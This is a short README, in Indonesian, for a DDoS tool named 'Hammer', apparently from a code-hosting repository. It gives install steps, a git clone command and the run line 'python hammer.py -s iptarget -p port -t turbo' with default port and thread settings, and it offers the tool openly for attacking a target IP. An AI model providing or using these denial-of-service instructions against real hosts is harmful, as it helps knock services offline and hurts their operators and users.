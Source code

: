 # ddos
DDOS Attack Hammer By Satu My ID

Cara Menggunakan Tools Ini

#pkg install update && upgrade
#pkg install python
#pkg install git
#git clone https://gituuu.com/satumyid/ddos
#cd ddos
#ls
#python hammer.py -s iptarget -p port -t turbo

default : -p 80 -t 135
